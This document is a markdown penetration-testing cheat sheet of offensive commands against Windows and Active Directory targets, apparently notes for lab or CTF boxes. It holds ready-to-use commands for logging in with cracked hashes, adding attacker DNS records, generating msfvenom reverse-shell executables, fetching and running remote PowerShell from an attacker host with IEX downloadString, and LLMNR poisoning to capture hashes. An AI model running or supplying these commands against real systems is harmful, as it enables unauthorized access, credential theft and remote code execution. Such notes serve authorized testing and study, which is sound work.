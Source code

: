 #### Note: consider group policy password grabs and cracks GPPDecrypt / Powerup / Empire
#### Note: Clock skew too great error ;
```
date -s <new:time:required>
```

#### login with crackmapexec
```
crackmapexec smb $IP -u owned_user -p cracked_hash --shares
```

#### login with evil-winrm (from nmap all ports -p 5985)

```
git clone https://github.com/Hackplayers/evil-winrm.git
cd evil-winrm
evil-winrm -u owned_user -p cracked_hash -i $IP
```

## login with wmiexec.py
```
python3 wmiexec.py box.local/administrator:password@$IP
```

#### add attack machine to local DNS
```
sudo python3 dnstool.py -u box.local\username -p password -r webdanko.box.local -a add -t A -d $IP_attacker $IP_victim
```

#### get standard revshell
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$IP LPORT=443 -f exe -o reverse.exe # stageless
msfvenom -p windows/x64/reverse_tcp LHOST=$IP LPORT=443 -f exe -o reverse.exe # staged
```

- transfer options
    - python -m SimpleHTTPServer + certutil -urlcache -split -f
    - upload via evil-winrm
    - impacket-smbserver sharename $(pwd) -smb2support -user me -password mypass
    - IEX(New-Object Net.WebClient).downloadString('http://$myIP/filetograb.ps1')

#### on target machine powershell
```
$pass = convertto-securestring 'df' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('df',$pass)
New-PSDrive -Name 'm' -PSProvider FileSystem -Credential $cred -Root \\$MyIP\Sharename
```

#### LLMNR Poisoning
- Link Local multicast name resoluton
- NETBIOS / DNS
- MITM Type Attack - We respond to the request
- The issue is that username and hash are given with correct response
- Tools
    - Impacket / Responder [Start before nmap and nessus scan]
